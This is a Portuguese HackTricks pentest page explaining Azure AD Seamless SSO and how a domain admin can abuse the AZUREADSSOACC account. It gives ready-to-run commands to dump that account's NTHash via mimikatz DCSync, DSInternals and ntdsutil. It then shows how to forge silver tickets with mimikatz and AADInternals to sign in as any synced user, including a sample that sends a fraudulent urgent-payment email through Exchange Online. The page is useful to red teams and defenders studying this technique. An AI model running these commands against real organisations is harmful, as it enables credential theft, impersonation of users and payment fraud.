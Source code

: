 # SSO sem emendas

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você quiser ver sua **empresa anunciada no HackTricks** ou se quiser acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Obtenha o [**swag oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github.

</details>

## Informação básica

O Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) **faz login automaticamente nos usuários quando eles estão em seus dispositivos corporativos** conectados à sua rede corporativa. Quando ativado, **os usuários não precisam digitar suas senhas para fazer login no Azure AD**, e geralmente, nem mesmo precisam digitar seus nomes de usuário. Essa funcionalidade fornece aos seus usuários fácil acesso às suas aplicações baseadas em nuvem sem precisar de nenhum componente adicional no local.

<figure><img src="../../../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

Basicamente, o Azure AD Seamless SSO **faz login nos usuários** quando eles estão **em um PC unido ao domínio local**.

Ele é suportado tanto pelo [**PHS (Sincronização de Hash de Senha)**](phs-password-hash-sync.md) quanto pelo [**PTA (Autenticação de Passagem)**](pta-pass-through-authentication.md).

O SSO do desktop usa **Kerberos** para autenticação. Quando configurado, o Azure AD Connect cria uma **conta de computador chamada AZUREADSSOACC** no AD local. A senha da conta AZUREADSSOACC é **enviada em texto simples para o Azure AD** durante a configuração.

Os **tickets Kerberos** são **criptografados** usando o **NTHash (MD4)** da senha e o Azure AD está usando a senha enviada para descriptografar os tickets.

O **Azure AD** expõe um **endpoint** (https://autologon.microsoftazuread-sso.com) que aceita **tickets Kerberos**. O navegador da máquina unida ao domínio encaminha os tickets para este endpoint para SSO.

### Local -> nuvem

A **senha** do usuário **AZUREADSSOACC nunca muda**. Portanto, um administrador de domínio pode comprometer o **hash dessa conta** e, em seguida, usá-lo para **criar silver tickets** para se conectar ao Azure com **qualquer usuário local sincronizado**:

```powershell
# Dump hash usando mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
 mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash usando https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump usando ntdsutil e DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```

Com o hash, agora você pode **gerar silver tickets**:

```powershell
# Obter usuários e SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Criar um silver ticket para se conectar ao Azure com mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:f9969e088b2c13d93833d0ce436c76dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Criar silver ticket com AADInternal para acessar o Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "97B745CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Enviar email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Pagamento urgente" -Message "<h1>Urgente!</h1><br>A seguinte conta deve ser paga o mais rápido possível."
```

Para usar o silver ticket:

1. Inicie o _Mozilla Firefox_.
2. Vá para **`about:config`** e defina a preferência [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) para o [valor](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically) `https://aadg.windows.net.nsatc.net,https://autologon.microsoftazuread-sso.com`
3. Navegue até qualquer aplicativo da web que esteja integrado ao nosso domínio AAD. Usaremos o [Office 365](https://portal.office.com/), que é o mais comumente usado.
4. Uma vez na tela de login, preencha o nome de usuário, deixando o campo de senha vazio. Em seguida, pressione TAB ou ENTER.

<figure><img src="../../../../.gitbook/assets/image (3) (3) (1).png" alt=""><figcaption></figcaption></figure>

#### E é isso! Você deverá estar dentro!